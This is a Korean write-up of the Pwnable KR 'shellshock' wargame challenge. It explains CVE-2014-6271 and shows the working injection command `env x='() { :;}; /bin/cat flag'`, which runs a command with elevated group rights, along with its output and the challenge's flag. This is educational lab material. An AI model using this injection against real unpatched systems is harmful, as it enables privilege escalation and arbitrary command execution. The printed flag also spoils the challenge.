 ```yaml
---
title: Pwnable KR - shellshock
date: 2016-04-24 17:39:00 +0900 KST
categories: [write-up]
---
```


## 문제

![Pwnable KR shellshock](pwnable-kr-shellshock.png)

1점 문제.

```console
$ ls -l
total 960
-r-xr-xr-x 1 root shellshock     959120 Oct 12  2014 bash
-r--r----- 1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x 1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r-- 1 root root              188 Oct 12  2014 shellshock.c
```

flag를 보려면 shellshock2 gid가 필요하고
shellshock를 실행하면 shellshock2 gid를 얻을 수 있다.

shellshock.c 내용은 다음와 같다.

```c
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

## 풀이

shellshock 취약점은 아래 명령어로 체크할 수 있다.

```sh
env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
```

```console
$ env x='() { :;}; echo pwnable!' bash -c 'echo safe~'
safe~
$ env x='() { :;}; echo pwnable!' ./bash -c 'echo safe~'
pwnable!
safe~
$
```

같은 디렉토리에 있는 bash는 취약한 것을 확인했다.
shellshock 프로그램에도 적용해보자.

```sh
env x='() { :;}; /bin/cat flag' ./shellshock
```

```console
$ env x='() { :;}; /bin/cat flag' ./shellshock
only if I knew CVE-2014-6271 ten years ago..!!
Segmentation fault
$
```

이 취약점을 통해서 내가 원하는 명령을 shellshock2의 권한으로 실행할 수 있었다.

bash는 환경변수로 함수를 정의할 수 있는데, 함수 정의가 끝난 다음에
임의의 명령을 추가로 적으면 그 명령이 실행되는 문제인 것이다.
자세한 건 다음 링크에서 공부해보도록 하자.

<https://access.redhat.com/blogs/766093/posts/1976383>
